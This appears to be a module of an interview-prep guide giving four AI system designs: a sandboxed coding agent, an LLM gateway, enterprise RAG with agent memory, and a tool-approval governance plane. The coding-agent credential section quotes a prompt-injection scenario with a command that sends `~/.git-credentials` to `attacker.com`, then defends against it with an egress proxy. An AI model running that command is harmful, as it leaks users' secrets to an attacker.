




# 2027 High-Frequency AI System Design Interviews

At the Staff (L6) and Principal (L7) level in 2027, AI System Design interviews no longer reward drawing generic `[Client] -> [API] -> [LLM] -> [Vector DB]` boxes. Interviewers expect **back-of-the-envelope token & memory math, prefix-cache economics, stateful streaming mechanics, multi-tenant isolation invariants, and concrete failure-mode mitigations**.

This reference contains four complete, whiteboard-ready Staff designs covering >85% of 2027 AI Platform, Applied AI Infra, and Staff Full-Stack/Backend loops.

> **Navigation**: [00-README.md](00-README.md) | Prev: [01-FUYAO-GATEWAY-MULTI-AGENT-DEFENSE.md](01-FUYAO-GATEWAY-MULTI-AGENT-DEFENSE.md) | **Current: Module 02** | Next: [03-STAFF-BEHAVIORAL-AND-COMPENSATION-NEGOTIATION.md](03-STAFF-BEHAVIORAL-AND-COMPENSATION-NEGOTIATION.md)

---

## 0. The 45-Minute Staff Cadence & 2027 Baseline Numbers

### Time Allocation Protocol
| Window | Phase | Staff-Level Signal |
| :--- | :--- | :--- |
| **Min 00–05** | **Scope, SLOs & Non-Goals** | Pin down interactive vs. async, latency percentiles ($p_{50}/p_{99}$ TTFT & ITL), security boundary, and unit-cost ceiling |
| **Min 05–10** | **Capacity & Unit Economics Math** | Compute concurrent SSE connections (Little's Law), KV/prefix-cache hit savings, vector RAM, and egress bandwidth |
| **Min 10–18** | **API Contract & High-Level Topology** | Separate **Control Plane** from **Data Plane**; define streaming frames, idempotency keys, and storage engines |
| **Min 18–37** | **3 Hard Deep-Dives (Proactive)** | Drive into the 3 hardest bottlenecks *before* the interviewer prompts you (e.g., sandbox security, cache affinity, TOCTOU) |
| **Min 37–45** | **Failure Modes, Evals & FinOps** | Provider regional outage cascades, runaway agent loops, shadow eval regression gates, and 10x scale evolution |

### 2027 Reference Latency & Cost Constants (Memorize)
- **Frontier LLM Latency**: Interactive TTFT target $< 600\text{ ms}$ ($p_{95}$); Inter-Token Latency (ITL) $12\text{--}25\text{ ms/token}$ ($40\text{--}85\text{ tok/s}$); reasoning turns with adaptive thinking: $10\text{--}90\text{ s}$.
- **Frontier API Pricing Anchor (`claude-opus-5-5` class)**: Uncached input = `USD 4.00 / 1M tokens`, **Prompt Cache Read = `USD 0.20 / 1M tokens` (95% discount!)**, Output = `USD 20.00 / 1M tokens`. Worker tier (`claude-haiku-5-5` class): `USD 0.10 / USD 0.50` per 1M tokens.
- **Self-Hosted KV-Cache Memory Formula** (per token, FP16/BF16):
  $$\text{Bytes/Token} = 2 \times n_{\text{layers}} \times n_{\text{kv\_heads}} \times d_{\text{head}} \times \text{bytes\_per\_param}$$
- **Infrastructure Primitives**: Go/Rust idle SSE socket $\approx 16\text{ KB}$ RAM; Firecracker microVM snapshot restore $\approx 120\text{--}250\text{ ms}$; Redis Lua script single-shard throughput $\approx 80,000\text{ ops/s}$; PostgreSQL composite B-Tree lookup $\approx 0.5\text{--}2\text{ ms}$.

---

## Design 1: Cloud SWE Coding Agent (Claude Code Cloud / Codex Class)

### 1. Problem & SLOs
Design a multi-tenant cloud software engineering agent capable of cloning private enterprise repositories, navigating multi-million-line codebases, running builds/tests inside isolated environments, streaming live progress to web/CLI clients, and opening verified pull requests.
- **Scale**: $50,000$ DAU engineers; $200,000$ autonomous coding sessions/day; $15,000$ concurrent active sessions at peak.
- **SLOs**: Sandbox warm attach $< 1.5\text{ s}$ ($p_{95}$); live event stream delivery $< 150\text{ ms}$; **zero raw credential exposure** inside the agent sandbox; deterministic session pause/resume across hours.

### 2. Capacity & Token Economics Math
- **Why Naive Agent Loops Go Bankrupt ($O(N^2)$ Input Trap)**:
  Suppose an average SWE task takes $M = 40$ tool-call turns, starting with a $15\text{K}$-token prompt (system + tool schemas + `CLAUDE.md`) and appending $2.5\text{K}$ tokens of file reads/diffs per turn.
  $$\text{Total Input Tokens} = \sum_{k=1}^{40} \left(15,000 + 2,500k\right) = 40(15,000) + 2,500 \times \frac{40 \times 41}{2} = 600\text{K} + 2.05\text{M} = 2.65\text{M tokens/session}$$
  - **Without Prefix Caching** (`USD 4.00 / 1M` input): $2.65 \times 4.00 = \text{USD } 10.60$ in input tokens alone per session!
  - **With Strict Append-Only Prefix Caching** (~92% cache-read hit at `USD 0.20 / 1M`): $(0.21\text{M} \times 4.00) + (2.44\text{M} \times 0.20) = 0.84 + 0.49 = \text{USD } 1.33$ input cost (**87% cost reduction**).
- **Compute Sandbox Fleet**:
  - $15,000$ concurrent sessions; average container CPU utilization during LLM thinking wait is $< 8\%$ (bursty during `npm build` / `pytest`). With $4\times$ CPU overcommit and hard cgroup memory caps ($4\text{ GB}$/VM), $15,000 \times 4\text{ GB} = 60\text{ TB}$ cluster RAM ($\approx 120$ bare-metal `m7i.metal-48xl` hosts running Firecracker).

### 3. Architecture Topology

### 4. Staff Deep-Dives

1. **Append-Only Harness & Preserved Thinking Integrity**:
   - Never run the LLM orchestration loop *inside* the untrusted sandbox VM (if the agent runs `rm -rf /` or OOMs via a fork bomb, the orchestrator survives and simply respawns/rolls back the VM).
   - Keep `tools` (deterministically sorted) -> `system` -> `messages` strictly **append-only**. Never mutate earlier messages or inject live `datetime.now()` into `system`; deliver mid-session operator nudges or CI webhook updates via mid-conversation `role: "system"` entries so neither the prompt cache nor preserved `thinking` block bindings break.
   - When trajectory tokens exceed $180\text{K}$, trigger **server-side compaction** (preserving compaction blocks verbatim in history) combined with offloading large raw test logs to sandbox files that the agent inspects selectively via `Read`/`Grep`.
2. **Firecracker MicroVM Snapshots & Sub-Second Warm Attach**:
   - Cold-cloning a $6\text{ GB}$ monorepo and installing dependencies takes 3–8 minutes. Instead, a background **Repo Pre-Warmer** periodically runs `git fetch` + build-cache warmup per repository default branch and saves a **Firecracker memory + OverlayFS block snapshot**.
   - New sessions boot a Copy-on-Write (CoW) clone in **~180 ms** and run a delta `git checkout <commit>` in $<1\text{ s}$. Idle sessions (>10 min inactive) snapshot dirty OverlayFS blocks to NVMe/S3 and release RAM completely.
3. **Vault Credential Substitution at Egress (Zero Secrets in Sandbox)**:
   - Prompt injection inside a GitHub issue or malicious dependency test script can execute `env` or `curl attacker.com -d "$(cat ~/.git-credentials)"`.
   - Solution: The MicroVM has **no direct internet route**—only a virtual NIC routed to a host-side **Egress Proxy**, and holds only an opaque placeholder `GITHUB_TOKEN=vault-ref://session-991`. When `git push` connects to `github.com` (verified via domain allowlist), the Egress Proxy swaps the placeholder header with a short-lived GitHub App installation token scoped strictly to that repo's feature branches (blocking pushes to `main`).
4. **Dedicated Surgical Tools + Outcome Verification**:
   - Expose dedicated typed tools (`Read`, `Edit` exact string replacement, `Glob`, `Grep`) alongside `Bash`. Dedicated file tools produce structured diffs, avoid shell-escaping corruption, and enable `eager_input_streaming: true` for smooth UI diff rendering.
   - Before opening a PR, an independent **Outcome Grader** checks deterministic gates (`git status` clean of secrets, linter/typecheck exit code 0, new tests passing) before marking the session completed.

### 5. Key Trade-Offs
| Decision | Chosen Approach | Rejected Alternative | Why It Wins at Staff Bar |
| :--- | :--- | :--- | :--- |
| **Sandbox Isolation** | **Firecracker MicroVM** (dedicated guest kernel) | Standard Docker containers (shared host kernel) | Untrusted AI-generated code + `sudo apt`/`docker build` requires hardware virtualization boundary against container escape |
| **Orchestrator Location** | **Host/Cloud Control Plane outside VM** | Running agent Python loop inside sandbox | Prevents agent self-modification, credential theft of `ANTHROPIC_API_KEY`, and survives guest OOMs |
| **Context Scaling** | **Selective file tools + server compaction** | Stuffing entire repo into 1M context window | Full-repo stuffing burns 10x tokens, degrades multi-hop editing precision, and adds 15s TTFT |

---

## Design 2: Multi-Tenant Enterprise AI Gateway at 50,000 RPS

### 1. Problem & SLOs
Design a globally distributed multi-tenant AI Gateway serving 5,000 enterprise tenants across multiple LLM backends (Anthropic Direct, AWS Bedrock, GCP Vertex AI, and internal vLLM GPU clusters) with strict quota governance, semantic/prefix routing, fallback cascades, and real-time FinOps billing.
- **Scale**: $50,000\text{ peak RPS}$ ($70\%$ streaming SSE, $30\%$ synchronous structured/batch); average input $4,000\text{ tokens}$, average output $500\text{ tokens}$.
- **SLOs**: Gateway added p99 latency $< 8\text{ ms}$ on TTFT; $99.99\%$ gateway availability; zero noisy-neighbor cross-tenant starvation; $< 0.01\%$ billing discrepancy vs. upstream provider invoices.

### 2. Capacity & Connection Math
- **Concurrent Open SSE Connections (Little's Law)**:
  - Streaming traffic: $\lambda_{\text{stream}} = 50,000 \times 0.70 = 35,000\text{ streams/s}$.
  - Average stream duration: $W = 12\text{ s}$ (weighted mix of fast Haiku/Sonnet and long Opus reasoning streams).
  $$L_{\text{concurrent}} = 35,000 \times 12 = 420,000 \text{ simultaneous open SSE connections (1M+ during upstream slowdowns!)}$$
  - **Runtime Choice**: In Go or Rust (`tokio`), each active stream state + 32 KB ring buffer consumes $\approx 40\text{ KB}$ -> $1,000,000 \times 40\text{ KB} = 40\text{ GB}$ aggregate RAM across a 30-pod fleet (`c7g.4xlarge`), whereas thread-per-request or heavy object graphs would require $10\times$ the fleet.
- **Token Throughput & Telemetry Bandwidth**:
  - Peak token rate: $50,000 \times 4,500 = 225\text{M tokens/sec}$ across all tenants!
  - Telemetry events: $50,000\text{ completion records/sec} \times 1.2\text{ KB JSON} = 60\text{ MB/sec}$ into Kafka ($12$ partitions easily absorb this).

### 3. Architecture Topology

### 4. Staff Deep-Dives

1. **Strict Data-Plane / Control-Plane Decoupling (<8ms p99 Overhead)**:
   - The Data Plane **never queries PostgreSQL** on the request path. API key hashes (SHA-256), tenant RBAC rules, model routing weights, and `inference_geo` compliance pins are compiled into immutable versioned snapshots pushed via Redis Pub/Sub + S3 fallback into each proxy pod's in-process memory (`atomic.Pointer` swap in Go), achieving **$< 0.1\text{ ms}$ auth & route lookup**.
2. **Two-Phase Token & Dollar Quota Reservation (`Freeze -> Stream -> Settle`)**:
   - Checking a tenant's balance *only* before starting a request allows an attacker to fire 1,000 parallel `max_tokens=64000` requests simultaneously and overdraft their USD 100 budget by USD 50,000.
   - **Solution**: Execute one atomic **Redis Lua script** before forwarding upstream:
     - Compute worst-case cost `reserve_usd = (est_input * price_in) + (capped_max_tokens * price_out)`.
     - Verify both hierarchical rate limits (Org TPM/RPM and Workspace TPM/RPM) AND `available_balance >= reserve_usd`, decrementing `available_balance` atomically with a 5-minute orphan lease TTL.
     - Upon stream completion (or mid-stream disconnect), asynchronously execute `Settle`: refund `reserve_usd - actual_usd` (including exact `cache_read_input_tokens` discounts) and emit an immutable event to Kafka.
3. **Prefix-Hash Sticky Routing & Health-Aware Fallback Cascades**:
   - Self-hosted vLLM/SGLang clusters and regional cloud endpoints cache KV blocks by prompt prefix. Random round-robin scatters identical system prompts across all replicas, thrashing GPU HBM caches.
   - Route via **Bounded-Load Consistent Hashing** keyed on `Hash(tenant_id + model_id + first_2048_bytes_of_tools_and_system)`. If the primary replica/provider exceeds queue depth or its **EWMA health score** degrades (429 spike, 529 overloaded, or p95 TTFT $> 2.5\text{ s}$), spill over deterministically to the secondary ring slot or secondary cloud (`Anthropic API -> Bedrock Mantle`), stripping incompatible beta flags automatically when crossing provider boundaries.

### 5. Key Trade-Offs
| Decision | Chosen Approach | Rejected Alternative | Why It Wins at Staff Bar |
| :--- | :--- | :--- | :--- |
| **Quota Enforcement** | **Two-phase atomic Redis Lua reservation** | Post-hoc async Kafka usage counting | Post-hoc counting permits massive parallel wallet-draining attacks before Kafka consumers lag-catch-up |
| **Hot-Path Config** | **In-memory RCU snapshot synced via Pub/Sub** | Per-request Redis/Postgres key lookup | Saves 1.5–4 ms network RTT per call and allows Gateway to keep serving if Control Plane DB restarts |
| **Semantic Cache** | **Disabled by default for tool/agent traffic; opt-in exact/prefix cache only** | Global vector-similarity semantic caching | Cosine similarity $0.96$ confuses `"Transfer USD 500 to Alice"` with `"Transfer USD 500 to Alex"`—catastrophic in enterprise actions |

---

## Design 3: Production Hybrid RAG + Long-Term Agent Memory

### 1. Problem & SLOs
Design a multi-tenant Enterprise Knowledge & Long-Term Agent Memory engine indexing **100M documents (1B chunks)** from Confluence, Slack, PDF specs, and Jira, plus persistent cross-session episodic/semantic memory for autonomous agents.
- **SLOs**: Retrieval + reranking p95 latency $< 140\text{ ms}$; **100% ACL enforcement** with $< 60\text{ s}$ permission revocation lag; citation provenance down to exact PDF page / char span; zero hallucinated stale memory poisoning.

### 2. Storage & Index Capacity Math
- **1 Billion Chunks at $d = 1024$ Dimensions**:
  - Uncompressed FP32 vectors: $10^9 \times 1024 \times 4\text{ B} = 4.096\text{ TB}$ (plus HNSW graph links $\times 1.5 \approx 6.1\text{ TB}$ DRAM—prohibitively expensive!).
  - **Staff Optimization (Scalar Int8 / Binary Quantization + DiskANN/NVMe)**:
    - Binary quantized vectors in RAM for initial fast graph traversal: $10^9 \times (1024 / 8)\text{ B} = 128\text{ GB}$ RAM!
    - Full FP16 vectors + chunk metadata stored on local NVMe SSD via DiskANN / `pgvectorscale` / Qdrant mmap for exact rescoring ($2\text{ TB}$ NVMe costs ~90% less than $6\text{ TB}$ DRAM while holding p95 $< 25\text{ ms}$).

### 3. Architecture Topology

### 4. Staff Deep-Dives

1. **Contextual Chunking + Hybrid RRF + Cross-Encoder Pipeline**:
   - Naive fixed-token splitting shreds financial tables and strips pronoun context (*"Revenue grew 18% in Q3"*—which company? which year?).
   - **Ingestion**: Parse PDF layout structurally (keeping Markdown tables intact), prepend a 50-token document-context header generated cheaply via `claude-haiku-5-5` batch API (`[Doc: Q3-2026 Supplier SLA | Section: Late Penalties]`), and index **both** dense embeddings (semantic synonyms) and **BM25 lexical postings** (exact SKU codes, error hexes like `ERR_BOM_4092`).
   - **Fusion**: Merge dense and lexical rankings deterministically using **Reciprocal Rank Fusion**:
     $$\text{Score}_{\text{RRF}}(d) = \frac{1}{60 + \text{rank}_{\text{dense}}(d)} + \frac{1}{60 + \text{rank}_{\text{bm25}}(d)}$$
     Pass the top 40 fused chunks through a lightweight `bge-reranker` / cross-encoder ($< 35\text{ ms}$ on TensorRT GPU batching) to select the top 8 high-precision blocks with `citations: {enabled: true}`.
2. **Pre-Filter ACL Security Trimming (Avoiding the Post-Filter Zero-Result Bug)**:
   - **Why Post-Filtering Fails**: If you fetch global top-50 vectors first and then filter by `user_has_access(doc)`, a user who only has permission to 0.1% of company docs gets **0 results** whenever the top-50 matches belong to executive folders.
   - **Solution**: Partition large enterprise tenants into dedicated physical shards; within a tenant shard, attach `allowed_group_ids` inverted metadata bitmaps to every chunk. Resolve the caller's transitive AD/Okta group list from Redis ($<1\text{ ms}$, updated via IdP webhooks within 60s) and execute **Filtered HNSW / DiskANN** traversal so graph hops *only* score authorized candidates, while ACL changes update document-level permission bitmaps without re-embedding chunks!
3. **Three-Tier Agent Memory Without Hallucination Drift**:
   - Agents that dump raw unverified summaries into a vector DB quickly suffer **memory poisoning** (an early mistaken assumption is retrieved as "fact" in future sessions).
   - Separate memory into three explicit tiers:
     - **Tier 1 (Working Context)**: Current session messages + dynamic compaction.
     - **Tier 2 (Immutable Episodic Log)**: Append-only timestamped transcript events (`session_id`, `turn_id`, `tool_outcomes`).
     - **Tier 3 (Consolidated Semantic & Procedural Memory)**: An asynchronous post-session worker extracts structured facts `(subject, predicate, object, valid_from, valid_until, source_turn_id, confidence)`. Contradictory updates **supersede** old facts via `valid_until = now()` rather than deleting history (bi-temporal modeling), and every injected memory carries its `source_turn_id` so the agent weights verified user preferences above inferred guesses.

### 5. Key Trade-Offs
| Decision | Chosen Approach | Rejected Alternative | Why It Wins at Staff Bar |
| :--- | :--- | :--- | :--- |
| **ACL Updates** | **Decoupled doc-ACL bitmap join / metadata update** | Embedding ACLs without indirection | Sharing a Google Drive folder with 5,000 employees updates 1 metadata row in $<1\text{ s}$ instead of re-embedding 50,000 chunks |
| **Vector Precision** | **RAM Binary Quantization + NVMe FP16 oversample rescore ($4\times$)** | Pure in-RAM FP32 HNSW | Cuts memory hardware bill by ~85% while recovering $>99\%$ recall@10 via $4\times$ oversampling rescore |
| **Memory Writes** | **Async background bi-temporal consolidation** | Synchronous `save_memory` tool on every chat turn | Keeps chat latency zero-overhead and prevents transient mid-conversation misunderstandings from polluting permanent memory |

---

## Design 4: Human-in-the-Loop (HITL) Governance & Safe Tool Execution Plane

### 1. Problem & SLOs
Design a centralized **Tool Execution & Governance Plane** used by dozens of internal enterprise agents to invoke 500+ tools (SQL databases, Stripe refunds, Kubernetes rollouts, ERP purchase orders, Slack notifications) with policy-as-code risk gates, durable human approvals, and zero duplicate side effects.
- **Scale**: $10,000\text{ tool invocations/sec}$ ($92\%$ low-risk read/auto-approved, $8\%$ mutating actions requiring risk scoring or human sign-off); up to $500,000$ concurrently paused workflows awaiting human response (SLA: 1 minute to 72 hours).
- **SLOs**: Policy evaluation overhead $< 10\text{ ms}$ ($p_{99}$); **0 compute threads/containers held idle** during human wait; cryptographic guarantee that approved parameters match executed parameters (**zero TOCTOU**); **exactly-once effective mutation** via end-to-end idempotency.

### 2. Capacity & State Storage Math
- **Policy Evaluation Throughput**: $10,000\text{ evals/sec}$ using compiled Cedar / OPA Rego policies cached in-process takes $\approx 0.15\text{ ms}$ CPU per evaluation -> trivial 4-pod fleet (`8 vCPU` each).
- **Suspended Checkpoint Footprint**: $500,000$ active paused runs $\times 40\text{ KB}$ compressed continuation snapshot = $20\text{ GB}$ hot state in PostgreSQL (easily fits in buffer cache of a single `db.r7g.2xlarge` primary + standby replica!). Compare that to holding $500,000$ Python worker processes open in RAM ($500,000 \times 50\text{ MB} = 25\text{ TB}$ RAM—impossible!).

### 3. Execution & Suspension Sequence

### 4. Staff Deep-Dives

1. **Four-Tier Policy-as-Code Classification (`ALLOW` / `AUTO` / `ASK` / `DENY`)**:
   - Every tool registers a JSON Schema (`strict: true`), mutability class (`READ_ONLY`, `REVERSIBLE_WRITE`, `IRREVERSIBLE_WRITE`), and domain validator (e.g., SQL AST parser, refund USD threshold).
   - Deterministic Cedar/OPA rules evaluate `(caller_identity, agent_id, workspace_id, tool_name, parsed_ast_attributes)`:
     - `DENY`: Hard violations (cross-tenant IDs, `DROP TABLE`, refund > USD 10,000) return `tool_result(is_error=true)` immediately so the model self-corrects or aborts.
     - `ALLOW`: Safe reads execute synchronously in $<10\text{ ms}$.
     - `AUTO`: Medium-risk actions scored by a deterministic heuristic + isolated classifier; uncertain verdicts escalate automatically to `ASK`.
     - `ASK`: Suspends workflow durably for human sign-off.
2. **Preserving Parallel Tool-Call Semantics Across Suspension**:
   - Frontier models frequently emit **multiple `tool_use` blocks in one assistant turn** (e.g., `fetch_order_details` + `issue_stripe_refund`). Anthropic's Messages API requires **all `tool_result` blocks for that turn to be returned together in a single `user` message**—splitting them corrupts conversation structure and degrades future parallel tool calling.
   - Our orchestrator executes `ALLOW` tools immediately, stores their completed `tool_result` payloads in the PostgreSQL checkpoint row alongside pending `ASK` tool IDs, **terminates the worker task**, and only resumes the next LLM API request once *every* pending `tool_use_id` in the batch resolves (`APPROVED` -> executed result, `REJECTED` -> `tool_result` with `is_error: true` and human rejection feedback).
3. **Cryptographic TOCTOU, Confused-Deputy & Expiry Defense**:
   - When pausing, compute `approval_digest = HMAC_SHA256(secret, canonical_json(tool_name, args, workspace_id, target_resource_etag))`.
   - At the moment the human clicks **Approve** (hours later), re-verify three invariants inside a serializable DB transaction:
     1. **Digest Match**: The payload about to run matches byte-for-byte what was rendered in the Studio/Slack diff card.
     2. **Freshness (`expected_etag`)**: The underlying target resource has not been concurrently modified since the diff was generated.
     3. **Dual-Identity Authorization**: Re-evaluate IdP permissions *right now* (in case the requester or approver had access revoked during the 4-hour wait, and enforce Separation of Duties `approver_id != requester_id` for critical production mutations).
4. **End-to-End Idempotency & Timeout Reconciliation**:
   - Network timeouts between Tool Executor and Stripe/ERP leave side effects ambiguous. Derive a deterministic key `Idempotency-Key = UUIDv5(namespace, run_id + ":" + tool_use_id)` persisted *before* outbound dispatch. Retries after worker crashes pass the exact same key, guaranteeing at-most-once external mutation.

### 5. Key Trade-Offs
| Decision | Chosen Approach | Rejected Alternative | Why It Wins at Staff Bar |
| :--- | :--- | :--- | :--- |
| **Suspension Model** | **Checkpoint to Postgres + release compute worker** | Long-polling `await asyncio.Event()` in pod RAM | Pod restarts during deploys wipe in-RAM waits and waste thousands of dollars holding memory for hours |
| **Rejection Handling** | **Return `tool_result(is_error=true, reason=human_note)`** | Hard-crashing the entire agent session | Lets the agent adapt gracefully to human feedback (e.g., *"Use staging namespace instead of prod"*) |
| **Tool Discovery at Scale** | **Server-side BM25/Regex `tool_search` with `defer_loading: true`** | Stuffing all 500 tool schemas into every prompt | 500 schemas consume ~75,000 tokens per turn and degrade tool-selection accuracy; `defer_loading` cuts prompt overhead by >90% |

---

### Continue to Module 03
Proceed to [03-STAFF-BEHAVIORAL-AND-COMPENSATION-NEGOTIATION.md](03-STAFF-BEHAVIORAL-AND-COMPENSATION-NEGOTIATION.md) for your complete Staff+ Behavioral Story Matrix and 2027 Offer Negotiation Playbook.
